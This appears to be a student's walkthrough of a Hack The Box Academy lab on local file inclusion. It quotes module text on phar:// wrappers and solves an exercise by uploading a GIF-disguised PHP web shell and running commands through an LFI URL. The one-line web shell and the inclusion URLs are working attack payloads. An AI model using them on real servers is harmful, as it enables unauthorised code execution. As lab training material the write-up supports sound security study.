 Now, we should have a phar file called `shell.jpg`. Once we upload it to the web application, we can simply call it with `phar://` and provide its URL path, and then specify the phar sub-file with `/shell.txt` (URL encoded) to get the output of the command we specify with (`&cmd=id`), as follows:

```
http://<SERVER_IP>:<PORT>/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id
```

![](https://academy.hackthebox.com/storage/modules/23/rfi_localhost.jpg)

As we can see, the `id` command was successfully executed. Both the `zip` and `phar` wrapper methods should be considered as alternative methods in case the first method did not work, as the first method we discussed is the most reliable among the three.

**Note:** There is another (obsolete) LFI/uploads attack worth noting, which occurs if file uploads is enabled in the PHP configurations and the `phpinfo()` page is somehow exposed to us. However, this attack is not very common, as it has very specific requirements for it to work (LFI + uploads enabled + old PHP + exposed phpinfo()). If you are interested in knowing more about it, you can refer to [This Link](https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi2rce-via-phpinfo).

# Question
---

![](../images/Pasted%20image%2020250218152650.png)

Let's check the site:

![](../images/Pasted%20image%2020250218152708.png)

We got `Profile Settings`:

![](../images/Pasted%20image%2020250218152723.png)

In here, we can upload images, if we try uploading another file, we get this:

![](../images/Pasted%20image%2020250218152746.png)

There are many ways to bypass this restriction but since we are following the guideline of the module, let's go with the malicious file upload, in this case, I will upload a malicious gif file:

```
echo 'GIF8<?php system($_GET["cmd"]); ?>' > webshell.gif
```

Now, let's upload it:

![](../images/Pasted%20image%2020250218153201.png)

If we check the source code, we can see the path where images are uploaded:

![](../images/Pasted%20image%2020250218153225.png)

So, we need to visit:

```
http://IP:PORT/index.php?language=./profile_images/webshell.gif&cmd=id
```
